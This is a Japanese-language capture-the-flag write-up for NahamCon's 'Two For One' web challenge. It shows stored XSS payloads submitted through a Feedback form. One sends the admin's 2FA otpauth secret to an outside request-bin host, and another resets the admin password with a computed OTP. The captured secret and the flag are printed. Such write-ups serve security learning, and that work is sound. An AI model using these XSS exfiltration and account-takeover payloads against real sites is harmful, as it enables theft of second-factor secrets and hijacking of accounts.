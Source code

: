 # Two For One:Web:473pts
Need to keep things secure? Try out our safe, the most secure in the world!  

**Connect with:**  
- [http://challenge.nahamcon.com:31211](http://challenge.nahamcon.com:31211/)  

# Solution
URLが与えられる。  
アカウント登録し、Username、Password、2FA OTPの三つを入力するとログインできる。  
Secretsなるものを投稿したり、閲覧したりできるようだ。  
Fort Knox  
[site1.png](site/site1.png)  
[site2.png](site/site2.png)  
Secrets部分でXSSはできそうにないが、SettingsページにFeedbackなる怪しい機能がある。  
[site3.png](site/site3.png)  
ここで以下を入力し送信することで、XSSを試す。  
リクエスト待ち受けは[RequestBin.com](https://requestbin.com/)を用いた。  
```html
<script>
fetch("https://xxxxxxxxxxxxx.x.pipedream.net");
</script>
```
するとリクエストが到達した。  
XSSが狙えるが、cookieには何も保存されていない。  
Settingsページでパスワードを変更すればログインできるが変更にはOTPが必要なようで、Usernameも分からない。  
ここでSettingsページにReset 2FAがあることに気づく。  
挙動を確認してみるとどうやら`/reset2fa`にPOSTを行っており、otpauth URIが返ってくる。  
これを奪うことを考える。  
CSRFトークンなどがあると一度それを取得しなければならないが、どうやら無いようだ。  
Feedbackから管理者のotpauth URIを奪うスクリプトを以下のように投げる。  
```html
<script>
fetch("http://challenge.nahamcon.com:31211/reset2fa", {method:"POST"}).then(res => res.text()).then(text => fetch("https://xxxxxxxxxxxxx.x.pipedream.net?s=" + text));
</script>
```
以下が待ち受けたサーバに届いた。  
```
/?s={%22url%22:%22otpauth://totp/Fort%20Knox:admin?secret=5AXOD3E57PGUZCE2&issuer=Fort%20Knox%22}
```
Usernameはadminのようだ。  
これでadminのOTPが計算できる。  
[One-Time Password Calculator](https://cryptotools.net/otp)などにSecretである`5AXOD3E57PGUZCE2`を渡してやればよい。  
ここから再度adminのパスワードを変更することを狙う。  
以下のスクリプトのotpに現時点でのadminのOTPを設定し、Feedbackから投げる。  
ここでは`279966`であった。  
```html
<script>
fetch("http://challenge.nahamcon.com:31211/reset_password", {
    "headers": {"Content-Type": "application/json"},
    "body": "{\"otp\":\"279966\",\"password\":\"satoki\",\"password2\":\"satoki\"}",
    "method": "POST"
});
</script>
```
これでadminのパスワードが`satoki`に変更されているはずである。  
変動するOTPとともにログインしてやるとFlagというものがあるようだ。  
flag  
[flag.png](site/flag.png)  
OTPを使い閲覧すると、flagが得られた。  

## flag{96710ea6be916326f96de003c1cc97cb}